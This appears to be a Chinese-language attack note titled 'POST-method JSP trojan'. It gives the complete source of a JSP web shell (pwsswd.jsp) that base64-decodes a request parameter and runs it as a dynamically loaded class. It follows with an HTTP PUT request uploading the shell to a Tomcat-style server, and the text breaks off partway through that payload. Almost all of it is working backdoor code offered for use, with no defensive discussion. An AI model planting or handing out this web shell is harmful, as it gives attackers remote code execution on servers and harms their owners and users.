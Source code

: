 ##### POST方式的jsp木马

###### 文件名

```
pwsswd.jsp
```

###### 文件内容

```jsp
<%!
    class U extends ClassLoader {
        U(ClassLoader c) {
            super(c);
        }
        public Class g(byte[] b) {
            return super.defineClass(b, 0, b.length);
        }
    }
 
    public byte[] base64Decode(String str) throws Exception {
        try {
            Class clazz = Class.forName("sun.misc.BASE64Decoder");
            return (byte[]) clazz.getMethod("decodeBuffer", String.class).invoke(clazz.newInstance(), str);
        } catch (Exception e) {
            Class clazz = Class.forName("java.util.Base64");
            Object decoder = clazz.getMethod("getDecoder").invoke(null);
            return (byte[]) decoder.getClass().getMethod("decode", String.class).invoke(decoder, str);
        }
    }
%>
<%
    String cls = request.getParameter("passwd");
    if (cls != null) {
        new U(this.getClass().getClassLoader()).g(base64Decode(cls)).newInstance().equals(pageContext);
    }
%>
```

![image-20240716153415226](https://image.201068.xyz/assets/image-20240716153415226.png)

```
PUT /passwd.jsp/ HTTP/1.1
Host: 192.168.70.14:8080
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/126.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
Content-Length: 956

<%!
    class U extends ClassLoader {
        U(ClassLoader c) {
            super(c);
        }
        public Class g(byte[] b) {
            return super.defineClass(b, 0, b.length);
```